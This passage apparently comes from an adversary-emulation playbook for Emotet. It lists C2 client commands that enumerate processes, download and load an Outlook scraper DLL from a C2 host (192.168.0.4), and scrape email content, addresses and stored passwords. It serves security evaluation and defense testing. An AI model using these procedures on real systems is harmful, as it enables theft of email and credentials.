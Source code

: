 
#### ☣️ Procedures

Enumerate processes.

```bash
# Emotet has been observed enumerating local processes.[17]

./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/hostdiscovery.cpp#L172)

Download Outlook Scraper DLL from C2 channel (192.168.0.4:80 / HTTP) to current working directory.

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/comms.cpp#L114)

Load Outlook Scraper DLL into emotet's address space via call to LoadLibraryW() and GetProcAddress().

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/loadoutlookscraper.cpp#L16)

Scrape email content from Outlook inbox via _popen call to PowerShell.

```bash
# Emotet has been observed leveraging a module that scrapes email data from Outlook.[3]

# Emotet has been observed leveraging a module that retrieves passwords stored on a system for the current logged-on user. [7][3]

./evalsC2client.py --set-task DOROTHY_DABB41A5 5
```

[Source Code](../../Resources/Emotet/OutlookScraper/OutlookScraper/outlook.cpp#L64)

[_popen info, because I've never heard of it either](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/popen-wpopen?view=msvc-160)

Scrape email addresses from inbox.

```bash
# Emotet has been observed leveraging a module that can scrape email addresses from Outlook.[3][4]

./evalsC2client.py --set-task DOROTHY_DABB41A5 8
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/comms.cpp#L99)

:warning: Sign out of RDP session: `Right-click Windows icon -> Shut down or sign out -> Sign out`

<br>

#### :microscope: Cited Intelligence
